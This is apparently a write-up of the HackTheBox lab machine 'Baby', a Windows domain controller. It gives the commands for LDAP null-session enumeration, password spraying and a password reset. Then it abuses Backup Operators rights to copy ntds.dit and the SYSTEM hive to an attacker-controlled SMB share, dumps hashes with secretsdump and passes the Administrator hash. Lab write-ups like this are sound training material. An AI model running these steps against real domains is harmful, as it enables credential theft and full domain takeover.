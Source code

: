 # [HackTheBox - Baby](https://app.hackthebox.com/machines/Baby)
![c6f135fd23e08499dbcf0bcab8d08564.png](../..//resources/c6f135fd23e08499dbcf0bcab8d08564.png)
[toc]
***
## Abstract
Baby is a vulnlab machine imported to HackTheBox as a easy Windows Active Directory box, I started with network enumeration with nmap, revealing this machine is a domain controller and no extra service running on this machine.

On the enumeration phase, I found that null session can be used to conduct LDAP search and retrieve a list of user and also the initial password from user description. however there is one user that could not be pull with common user pull method but searching thoughly in the LDAP result will reveal about this user. 

Using password from user description and the hidden user, revealing that we can change password of this user and gain foothold on the machine.

The user that used for footholding is in Backup Operators group which we can backup ntds.dit along with SYSTEM registry hive and dump hashes of all users in the domain using secretdump and then we can use Administrator NTLM hash to login to the machine and root the box.

## Enumeration

Starting with nmap port scanning and we can see that there are multiple ports opened including LDAP and Kerberos which mean this machine is a domain controller. 
```
nmap $IP
```
![26b7efdc620353a2086c3d852c4da222.png](../..//resources/26b7efdc620353a2086c3d852c4da222.png)

I rescanned again with `-sCV` flag for service enumeration and nmap script engine which reveals domain and hostname that we can add to hosts file but other information are not too special at this point  
![ff14d3ebf97cfed092a71494342ed65e.png](../..//resources/ff14d3ebf97cfed092a71494342ed65e.png)

After adding domain to hosts file. I started enumerate SMB with NetExec tool and we can see that null session could not be used to retrieve anything from  
![f1d4e9c963c1fed550ace9ded12fa705.png](../..//resources/f1d4e9c963c1fed550ace9ded12fa705.png)

But after changing protocol to LDAP, we can see that we can pull user lists from the domain and we can also see that we also have a password from user description and it telling us that the initial password of users on this domain is "BabyStart123!" and will likely to be changed after user logon.
```
nxc ldap baby.vl -u '' -p '' --users
```
![2db204965f7ff0c0c07d0b69b3f3c891.png](../..//resources/2db204965f7ff0c0c07d0b69b3f3c891.png)

I created a userlist with NetExec and then password spraying all users from this user list but no hit which mean all users already changed their password and it seem like I missed something I shouldn't.
```
nxc ldap baby.vl -u '' -p '' --users-export baby_users.txt
nxc smb baby.vl -u baby_users.txt -p 'BabyStart123!'
```
![2ac46c2fab4c297d6944f279690dca56.png](../..//resources/2ac46c2fab4c297d6944f279690dca56.png)
![81e4fe894bd107521a7ac680c1790ab4.png](../..//resources/81e4fe894bd107521a7ac680c1790ab4.png)

I used a simple LDAP search to search for something I might have missed and sure enough, there is one user that could not be pulled with my netexec 
```
ldapsearch -H ldap://baby.vl -x -b "DC=baby,DC=vl" | grep member:
```
![05e5906012ebbd05e0e9677198203c52.png](../..//resources/05e5906012ebbd05e0e9677198203c52.png)

I tried to find the reason about it and 0xdf gave on on his write-up "That’s because this user doesn’t have any data associated with them" which is really interesting
![985b8b827cb9d296ec8fbddde273a42b.png](../..//resources/985b8b827cb9d296ec8fbddde273a42b.png)

I dug into the [source code](https://github.com/Pennyw0rth/NetExec/blob/f981215d776d56234d51f95ac2e48f11e149fe31/nxc/protocols/ldap.py#L740) of NetExec when using ldap to parse user list which reveals that NetExec will retrieve only object with `sAMAccountType` = 805306368 (normal user accounts) and "Caroline.Robinson" does not have this value so it didn't make to the list.
![53e6e1e570ed1d906995202caa67ec33.png](../..//resources/53e6e1e570ed1d906995202caa67ec33.png)

## Initial Foothold by Changing password of Caroline.Robinson

I used the credential found on user description on this user and we can see that we can change password of this user and continue our operation.
```
nxc smb baby.vl -u 'Caroline.Robinson' -p 'BabyStart123!'
```
![6609dadf07b72af65f34ae4ebb95de21.png](../..//resources/6609dadf07b72af65f34ae4ebb95de21.png)

I used uv to run latest version of NetExec from Github to use change-password module since NetExec on Kali linux is not the latest version and it does not have this module. (you can use other tool to change password of this user)
```
uv run nxc smb baby.vl -u 'Caroline.Robinson' -p 'BabyStart123!' -M change-password -o NEWPASS=Password123
```
![0eef906aa335b4004f160937bb3d3f2a.png](../..//resources/0eef906aa335b4004f160937bb3d3f2a.png)

Now we can use this account to eneumerate further but nothing too special on share here.
![d184b24b122d32a5e684378c0e132b6c.png](../..//resources/d184b24b122d32a5e684378c0e132b6c.png)

We can use this user to gain a foothold as we can see "Pwn3d!" message from NetExec with WinRM protocol 
```
nxc winrm baby.vl -u 'Caroline.Robinson' -p Password123
```
![2316cf50ce55d71714b1dbc3a8672b7a.png](../..//resources/2316cf50ce55d71714b1dbc3a8672b7a.png)

Using [evil-winrm](https://github.com/Hackplayers/evil-winrm), we can gain a foothold and loot user flag located on the desktop of this user.
![495cb95b3a45b41f28535d9e863c6a69.png](../..//resources/495cb95b3a45b41f28535d9e863c6a69.png)

## Privilege Escalation with Backup Operators group

After gaining foothold, I used whoami command to list information about current user to find a low-hanging fruit and we can see that this user is a member of Backup Operators group which can backup (SeBackupPrivilege) and restore (SeRestorePrivilege) file on this machine.
```
whoami /all
```
![86434904fbd98b5f38ef2b2c6fa52047.png](../..//resources/86434904fbd98b5f38ef2b2c6fa52047.png)

Since this is the domain controller, I will need to create a backup of ntds.dit which is active directory database and SYSTEM registry hive to dump hashes from both of these files, SYSTEM registry can be retrieve with just 1-2 command but on the other hand. I need to create a shadow copy so I can safely retrieve ntds.dit file.

I will use diskshadow to create shadow copy or C drive but first, I need to create a script to automate this first and here in the script
```
set verbose on   
set metadata C:\Windows\Temp\meta.cab   
set context clientaccessible   
set context persistent   
begin backup   
add volume C: alias wowza   
create   
expose %wowza% E:   
end backup
```

The script will create a shadow copy snapshot of C drive and map to E drive and thats it but since this script was created on my Kali Linux, I need to convert Unix format (Line Feed) to DOS format (carriage return + Line feed) which will make this script able to run on Windows.
```
unix2dos diskshadow.txt
```
![28cabc9ae7f5843c32bd774114fb0717.png](../..//resources/28cabc9ae7f5843c32bd774114fb0717.png)

Next, I uploaded the script on my winrm session and execute it. no error and now we are ready for the file transfer.
```
upload diskshadow.txt
diskshadow /s diskshadow.txt
```
![ce09650189645b3ef5b09f67aa5bdea4.png](../..//resources/ce09650189645b3ef5b09f67aa5bdea4.png)
![2c89cee29b28fb4bd2358de6f21a5210.png](../..//resources/2c89cee29b28fb4bd2358de6f21a5210.png)

Since SYSTEM hive and ntds.dit files are quite large so, I opened my netshare share and copy both files to my Kali Linux. This way is much faster than download function in evil-winrm. first I created a backup of SYSTEM hive with reg save command.
```
reg save hklm\system c:\system
cp system.hive \\10.10.14.24\debug\
```
![1b2ada0a9d181e68400962ee83cc16a9.png](../..//resources/1b2ada0a9d181e68400962ee83cc16a9.png)
![985f2bfdcd10aa66d3ae23d309d8a909.png](../..//resources/985f2bfdcd10aa66d3ae23d309d8a909.png)

Next is ntds.dit file and now we are ready to dump all the hashes inside both files.
```
robocopy /b E:\windows\ntds . ntds.dit
cp ntds.dit \\10.10.14.24\debug\
```
![d512b652ff079e0c93a572daca4eb8c3.png](../..//resources/d512b652ff079e0c93a572daca4eb8c3.png)

The tool that can be used to dump hashes is secretsdump from impacket and now we can get NTLM hash of Administrator account and gain access to target system via pass-the-hash technique.
```
impacket-secretsdump -ntds ntds.dit -system system.hive local
```
![6fc8fe601dbfd6152a5c6f96fc7463d1.png](../..//resources/6fc8fe601dbfd6152a5c6f96fc7463d1.png)

Login as Administrator and loot the flag, Now we are done :D
```
evil-winrm -i baby.vl -u 'Administrator' -H ee4457ae59f1e3fbd764e33d9cef123d
```
![772a9088ed368afeb8025d4b47c76b7d.png](../..//resources/772a9088ed368afeb8025d4b47c76b7d.png)

https://labs.hackthebox.com/achievement/machine/1438364/739
***